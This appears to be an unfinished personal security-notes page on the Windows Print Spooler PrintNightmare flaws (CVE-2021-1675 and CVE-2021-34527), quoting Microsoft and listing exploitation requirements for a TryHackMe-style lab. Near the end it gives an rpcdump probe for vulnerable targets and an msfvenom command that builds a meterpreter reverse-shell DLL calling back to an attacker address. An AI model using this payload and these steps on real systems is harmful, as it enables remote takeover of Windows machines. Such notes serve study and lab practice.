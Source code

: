 
# PrintNightmare


Microsoft described this vulnerability: *A remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could run arbitrary code with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights".*

A Print Spooler Service is one of many [[Windows-Services]]. It is defined by Microsoft as: *"The [print spooler](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655) service is a service that is running on each computer that participates in the Print Services system. The print spooler service implements the [print client](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) and [print server](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) roles, by enabling each participating system to act as a print client, administrative client, or print server for the Print Services system."*

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) and [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) are related to each other, but differ regardless of being categorized as **Windows Print Spooler Remote Code Execution Vulnerability**.

As [Microsoft](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) states in the FAQ, the PrintNightmare (CVE-2021-34527) vulnerability "_is similar but distinct from the vulnerability that is assigned CVE-2021-1675._ _The attack vector is different as well."_

What did Microsoft mean by the attack vector? To answer this question, let's look into the differences between the two vulnerabilities and append the timeline of events. 

Per [Microsoft's](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) definition, PrintNightmare vulnerability is _"a remote code execution vulnerability exists when the Windows Print Spooler service improperly performs privileged file operations. An attacker who successfully exploited this vulnerability could **run arbitrary code** with SYSTEM privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights."._

It is impactful and CVE Score of 8 for both, made more so by public PoC, Print Spooler is enabled by DEFAULT on DC with SYSTEM privileges and can be used over a network.

#### READ!!!

- Will be done in the next two weeks! Thank you for patience

-   [PrintNightmare Network Analysis | JUMPSEC LABS](https://labs.jumpsec.com/printnightmare-network-analysis/)
-   [From Lares Labs: Detection & Remediation Information for CVE-2021-1675 & CVE-2021-34527](https://github.com/LaresLLC/CVE-2021-1675)
-   [PrintNightmare (CVE-2021-1675 and CVE 2021-34527) Explained](https://www.blumira.com/cve-2021-1675/)


#### Requirements

To exploit the CVE-2021-1675 vulnerability requires:
- Direct or local access to the machine to use a malicious DLL file to escalate privileges.
To exploit the CVE-2021-34527 vulnerability requires:
- Connection to remotely inject the malicious DLL file.

Tools like:
- [[Impacket-Cheatsheet]]
	- `smbserver` to host exploit 
	- `rpcdump @$ip | egrep 'MSPRN|MS-PAR'` to test if target `$ip` is vulnerable
- [THM version of CVE-2021-1675](https://github.com/tryhackme/CVE-2021-1675) and [THM version of Impacket](https://github.com/tryhackme/impacket.git) - here for compatibility and highlight some of my sources.
- Payload - Beacon or Reverse Shell
```ruby
# MSFvenom payload are commonly signatured by AV and EDR
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll 
```




## References

[Print spooler Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_c6bde257-38a5-43bb-8d0e-204e226b3655)  
[Print client Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_3b2da3d1-c159-4399-a6dd-dfd5f76fa2f5) 
[Print server Microsoft Documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/b1e6690e-453a-4415-9506-2706ba31feac#gt_59fb3ddc-63cf-45df-8a90-46a6af9e00cb) 
[CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) 
[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
[Microsoft's PrintNightmare Definition](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 
[Microsoft's description of CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) 